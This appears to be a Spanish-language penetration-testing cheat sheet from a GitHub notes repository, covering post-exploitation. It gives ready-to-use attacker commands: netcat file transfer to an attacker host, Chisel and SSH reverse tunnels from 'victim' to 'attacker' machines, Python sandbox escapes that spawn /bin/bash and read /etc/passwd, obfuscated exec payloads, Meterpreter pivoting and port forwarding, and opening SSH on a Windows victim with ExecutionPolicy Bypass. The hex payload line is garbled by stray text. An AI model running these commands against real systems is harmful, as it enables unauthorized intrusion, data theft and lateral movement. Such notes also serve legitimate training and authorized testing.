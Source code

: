 # Postexplotacion

1. [Escalado de privilegios](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#Escalado-de-privilegios)
	* [Linux](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md)
	* [Windows](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Windows.md)
1. [Transferencia de archivos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#transferencia-de-archivos)
1. [Port Forwarding](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#port-forwarding)
1. [Saltando sandbox](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#saltando-sandbox)
1. [Meterpreter](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#meterpreter)
1. [Pivoteando](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#pivoteando)

## Escalado de privilegios

* [Linux](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md)
* [Windows](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Windows.md)

## Transferencia de archivos

### Netcat

```bash
#envio archivo
nc x.x.x.x port < file.txt
#recibo archivo
nc -lvnp port > file.txt
```

Web Server con NC
```bash
while:; do nc -q 0 -l 80 <<EOF
HTTP/1.1 200 OK
Content-Type: Text/html

<html>
	<body>
		<h1>Current Date is $(date)</h1>
	</body>
</html>
EOF
done
```

## Port Forwarding

Para mandar un servicio que esta corriendo solo para el host local, hacia hosts remotos (o red local a red externa). Tambien puede servir para servicios que necesitan de GUI y no se pueden levantar desde una shell

### SSH

```bash
ssh -R remotePort:localhost:localPort x.x.x.x
```

### Chisel

```bash
#atacante
$chisel server -p 9999 --reverse
#victima
$chisel client IPAtacante:9999 R:RPort:127.0.0.1:LPort
```

## Saltando sandbox

### Python

#### OS Command execution

```bash
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')
```

#### Octal

```bash
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```

#### Hexa
```bash
exec("\x5f\x5f\x69\x6d\xIf youca70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
```

#### b64

```bash
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #
```

Py2
```bash
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```

## Meterpreter

	* [Meterpreter]

## Pivoteando

### Meterpreter

```bash
>run autoroute -s IP_red_victima/MASK

#sshutle
```

### General

```
1) transferir Chisel a la maquina victima

2) en maquina atacante
$./chisel server -p 1337 --reverse

3) en maquina victima
$./chisel client 192.168.1.1:1337 R:socks #linux
>chisel.exe client 192.168.1.1:1337 R:socks #windows

4) si todo correcto en maquina atacante recibimos
2021/01/15 17:11:47 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

5) agregamos esta linea al /etc/proxychains.conf
socks5 127.0.0.1 1080 #el puerto de 4

6) tiramos comandos a traves de proxychains
#ejemplo
$proxychains nmap -sS IP_victima2
```

### Linux
```bash
#Agregar ruta
ip route add [net/mask] via [gatewayip] dev [device]
```

### Windows
```powershell
route add [subnet] [netmask] [meterpreterSessionId]
```

```powershell
//Descomprimir el archivo
powershell -command "Expand-Archive 'C:\openssh.zip' c:\ruta\"

//Instalar el openSSH
powershell -ExecutionPolicy Bypass -File c:\install-sshd.ps1

//añadir reglas al firewall
powershell -Command "New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22"

//empezar el sshd service
net start sshd

//Desde el host, linux en este caso
ssh -ACv -D <tunnel_port> <windows-user>@<windows-ip>
```

### Meterpreter
```
#una vez hechas las rutas en el SO victima
ms6> route add [subnet] [netmask] [meterpreterSessionId]
ms6> use auxiliary/server/socks_proxy
set version 4a
set srvport 9050
run -j

Desde aca podemos usar proxychains o usar el proxy 127.0.0.1:9050 para navegar en las redes privadas
```

#### portforwarding
```
meterpreter> portfwd add -l [localport_atacante] -p [remoteport_victima] -r [remotehost_victima]
meterpreter> portfwd list (para comprobar)
meterpreter> bg
msf6> nmap -sS -sV -p [localport_recienConfigurado] localhost
exploit normalmente como si llegaramos a la IP
```

